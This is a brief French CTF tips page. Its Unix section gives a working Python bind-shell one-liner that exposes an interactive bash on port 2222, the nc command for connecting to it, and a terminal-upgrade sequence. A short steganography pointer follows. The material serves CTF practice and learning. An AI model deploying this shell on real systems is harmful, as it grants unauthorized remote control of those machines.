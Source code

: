 Tips et tools utiles pour les CTFs

# Tips
## Unix 
Merci à @Clayno pour ses tips!

### Obtenir un shell
Pour ouvrir une connexion sur le port 2222:
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
La connexion sur l'hôte se fait via 
```
nc -nv [adresse] 2222
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg
```
## Steganographie
Tester zsteg
Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101
